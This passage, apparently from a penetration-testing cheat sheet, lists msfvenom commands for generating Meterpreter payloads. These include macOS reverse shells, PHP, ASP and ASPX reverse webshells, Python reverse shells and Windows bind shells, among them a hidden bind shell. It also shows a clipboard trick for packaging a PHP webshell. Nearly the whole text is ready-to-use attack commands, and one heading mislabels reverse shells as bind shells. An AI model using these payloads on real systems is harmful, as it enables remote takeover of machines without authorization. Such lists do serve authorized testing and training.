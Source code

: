 ##### 2.6.1.7 - Stageless Mac OSX Meterpreter Reverse Shells

1. **x86-64 (64-bit) Payloads**

`$ msfvenom -p osx/x64/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f macho -o met-x64`

`$ msfvenom -p osx/x64/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f macho -o met-x64`

##### 2.6.1.8 - Stageless Reverse Webshells

1. **PHP**

`$ msfvenom -p php/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f raw > met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`

2. **ASP**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x86.asp`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x64.asp`

3. **ASPX**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x86.aspx`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x64.aspx`

#### 2.6.2 - Bind Meterpreter Shells

##### 2.6.2.1 - Staged Python Meterpreter Bind Shells

`$ msfvenom -p python/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_tcp_ssl lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_http lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -o met.py`

##### 2.6.2.2 - Staged Windows Meterpreter Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-met-x64.exe`

